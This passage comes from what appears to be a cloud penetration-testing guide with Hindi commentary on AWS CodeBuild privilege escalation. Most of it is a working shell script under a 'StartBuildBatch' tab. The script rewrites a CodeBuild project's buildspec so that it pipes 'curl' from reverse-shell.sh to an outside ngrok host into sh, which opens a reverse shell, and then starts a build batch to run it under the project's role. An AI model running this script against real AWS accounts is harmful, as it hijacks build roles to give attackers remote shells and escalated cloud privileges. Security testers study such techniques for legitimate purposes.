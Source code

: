 {% endcode %}
{% endtab %}

{% tab title="StartBuildBatch" %}
{% code overflow="wrap" %}
```sh
REV_PATH="/tmp/codebuild_pwn.json"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh"

# You need to indicate the name of the project you want to modify
JSON="{
\"name\": \"project_name\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nbatch:\\\\n  fast-fail: false\\\\n  build-list:\\\\n    - identifier: build1\\\\n      env:\\\\n        variables:\\\\n          BUILD_ID: build1\\\\n      buildspec: |\\\\n        version: 0.2\\\\n        env:\\\\n          shell: sh\\\\n        phases:\\\\n          build:\\\\n            commands:\\\\n              - curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh\\\\n      ignore-failure: true\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"public.ecr.aws/h0h9t7p1/alpine-bash-curl-jq:latest\",
\"computeType\": \"BUILD_GENERAL1_SMALL\",
\"imagePullCredentialsType\": \"CODEBUILD\"
}
}"

printf "$JSON" > $REV_PATH

# Note how it's used a image from AWS public ECR instead from dockerhub as dockerhub rate limits CodeBuild!

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build-batch --project-name codebuild-demo-project
```
{% endcode %}
{% endtab %}
{% endtabs %}

**संभावित प्रभाव:** जुड़े हुए AWS Codebuild भूमिकाओं के लिए सीधे प्रिविलेज़ वृद्धि।

### SSM

**SSM सत्र शुरू करने के लिए पर्याप्त अनुमतियाँ होने पर** यह संभव है कि **एक Codebuild प्रोजेक्ट** के अंदर जाया जा सके जो बनाया जा रहा है।
